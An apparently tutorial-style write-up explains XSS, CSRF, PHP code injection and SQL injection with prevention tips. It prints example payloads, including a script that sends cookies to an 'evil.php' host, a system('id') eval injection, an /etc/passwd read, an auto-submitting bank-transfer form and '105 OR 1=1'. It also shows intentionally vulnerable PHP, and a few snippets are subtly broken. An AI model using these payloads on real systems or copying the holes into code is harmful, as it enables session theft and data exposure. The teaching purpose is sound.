 *** XSS attacks (Cross-site scripting) ***

XSS is an injection method that provides malicious script into a trusted website. Injected script gets downloaded and executed by the end users browser when the user interacts with the compromised website. Since the script came from a trusted website, it cannot be distinguished from a ligitimate script. 

XSS attacks may be conducted without using <script>...</script> tags. Other tags will do exactly the same thing.

Examples:

This script is encoded in base64 and placed in META tag.

<META HTTP-EQUIV="refresh"
CONTENT="0;url=data:text/html;base64,PHNjcmlwdD5hbGVydCgndGVzdDMnKTwvc2NyaXB0Pg">

If the application doesn't validate the input data, the attacker can easily steal a cookie from an authenticated user. 

<SCRIPT type="text/javascript">
var adr = '../evil.php?cakemonster=' + escape(document.cookie);
</SCRIPT>



Assume that we have an error page, which is handling requests for a non existing pages, 404 error page.

<html>
<body>
<?php
print "Not found: " . urldecode($_SERVER["REQUEST_URI"]);
?>

</body>
</html>



User can try to force the error page to include this code:

http://testsite.test/<script>alert("TEST");</script> The result is: Not found: / 

(but with JavaScript code <script>alert("TEST");</script>)



**XSS attacks can be prevented with** encoding the inputs in with a standart and then process it. 

in javaScript users can process each input and replace the suspicious characters which can be used in injection methods. And in server-side (PHP), inputs can be used with preprocess them with htlmspecialchars() function.

*** Cross Site Request Forgery (CSRF) ***

Cross Site Request Forgery is a vulnerability where an attacker performs actions while impersonating another user. It can be occur by redirecting users to a link and make a post request with filled form as soon as the page is loaded with using users cookie informations

Examples:


This is a scam webpage that users will think they earn a giveaway and when they want to transfer it to their accounts, it fills an html form and executes the POST form.
<html>
    <body>
        <h1>...</h1>

            <form action="[https://saturnbankgiveaway.com/transfer] (https://saturnbankgiveaway.com/)" method="POST">
                <input type="hidden" iban="421123123123121233314" accountNo="123123123" amount="100" />
            </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>

The form creates the following request to the legit Saturn Bank application. The request contains the legit user's session cookie, but contains my account number.

POST /transfer HTTP/1.1 
HOST: saturnbank.com
Content-Length: 42
Content-Type: application/x-www-form-urlencoded
Cookie: session=0M19vamsdkf43DFASFsauaSs
iban=421123123123121233314&accountNo=123123123&amount=100


**CSRF attacks can be prevented by** using CRSF tokens, or any type of instantly created tokens used between the client and server-side of an application. They can be included in any requests the client makes to the server. The server validates the token on each request to ensure it's still the authorized user making the request.

Then users should add the CRSF token input field to each form in their applications.


*** PHP Code Injections ***

If a php code doesn't have any input validation for special chars or char combinations, these codes are vulnerable to a code injection attacks. 

For example, if i have a code segment like this:
    $myvar = "varname";
    $x = $_GET['arg'];
    eval("$myvar = $x;");
This code is vulnerable to attacks as this:
     /index.php?arg=1; system('id')


Another example:
    $file = basename(realpath($_GET['file']));
    include($file);
in this code block, if we pass **/etc/passwd** as the argument, this file is  readable for all users. The script returns the content of the file with information about all system users.


**Users can prevent php code injections** with avoiding to use exec(), shell_exec(), system() or passthru() functions. These functions may use directly OS files and folders and it causes major vulnerabilities.

PHP provides some functional operators with built-in input escaping called escapeshellarg() and escapeshellcmd(), which passes input through some level of escape and sanitisation as part of the function call.

Users may provide their own input validations before using inputs in their inner systems.

*** SQL Injections ***

SQL injection is an injection technique that may destroy or cause security vulnerabilities on users databases. It causes when an SQL query is executed with passing an input directly inside of the query. Users can manipulate the query depending on their own desires. 

Examples:
    txtUserId = getRequestString("UserId");
    txtSQL = "SELECT * FROM Users WHERE UserId = " + txtUserId;
in this example user can add new queries with passing new sql commands in the UserId field like this:

UserId: 105 OR 1=1

this is equivalent to this :
    SELECT * FROM Users WHERE UserId = 105 OR 1=1;
the condition "UserId = 105 OR 1=1" will be always true and it returns all the rows of Users table.


**Users can prevent SQL injections** with preparing queries with expected variables and binding parameters with their types, and execute the query.

This provides SQL to type of the input and behave it like that input is only can be that kind of input, not any continues queries.

In this example:
    prepare("SELECT * FROM Users WHERE UserId=?);
    bind_param("i", $txtUserId);

    $result = execute();